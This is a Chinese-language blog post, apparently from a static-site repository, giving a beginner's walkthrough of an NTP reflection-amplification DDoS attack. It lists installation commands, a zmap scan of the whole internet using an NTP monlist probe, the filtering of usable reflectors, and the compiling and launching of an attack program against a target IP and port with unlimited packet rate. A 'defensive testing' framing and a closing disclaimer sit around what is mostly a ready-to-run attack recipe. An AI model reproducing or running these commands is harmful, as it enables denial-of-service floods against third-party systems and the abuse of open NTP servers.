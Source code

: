 ```yaml
---
title: ddos的初级之路
date: 2024-06-03 23:58:03
tags:
---
```

### ddos的初级之路

近期应朋友之托，做了一次防御安全检测，先写使用NTP的过程

1、系统环境为CentOS7

2、首先yum update后安装依赖

```
yum install epel-release -y
```

```
yum install gcc libcap libpcap libpcap-devel screen php dstat cmake gmp gmp-devel gengetopt byacc flex git json-c zmap screen -y
```

3、上传下面压缩包的内容去服务器

   压缩包中包含 探针文件 ntp_123_monlist.pkt 以及ntp反射放大脚本。

打开一个screen并使用zmap进行扫描（请注意探针文件位置）

```
screen zmap -p 123 -M udp --probe-args=file:/root/ntp_123_monlist.pkt -o monlist_fingerprint.txt
```

如果提示错误需要指定网卡，加一个-i 网卡名称，例如

```
screen zmap -i p2p1 -p 123 -M udp --probe-args=file:/root/ntp_123_monlist.pkt -o monlist_fingerprint.txt
```

然后就是漫长的等待，测试服务器使用500M带宽，扫描全网花了6个小时

扫出结果后，我们需要检查下列表内的IP哪些可以使用反射

给压缩包内的ntpchecker 777权限

```
chmod 777 ntpchecker
```

进行检查

```
./ntpchecker monlist_fingerprint.txt step1.txt 1 0 1
```

这个步骤应该10分钟就OK了，具体取决于机器性能和网络速率，怕掉线的话可以开个screen保持

检查完成后，进行格式化

```
awk '$2>419{print $1}' step1.txt | sort -n | uniq | sort -R > ntpamp.txt
```

这样我们就得到了一份可以用来进行使用的NTP列表了

压缩包内已经有了攻击程序，可以直接使用

编译压缩包内的攻击程序

```
gcc -lpthread ntp.c -lpcap -o ntp
```

到此就可以了

使用命令举例

```
./ntp 127.0.0.1 80 ntpamp.txt 1000 -1 100
```

```
127.0.0.1=目标IP
80=攻击端口
ntpamp.txt=过滤后的放大列表
1500=线程
-1=pps限制，-1表示无限制
100=攻击时间
```

请合理利用，请勿适用于非法用途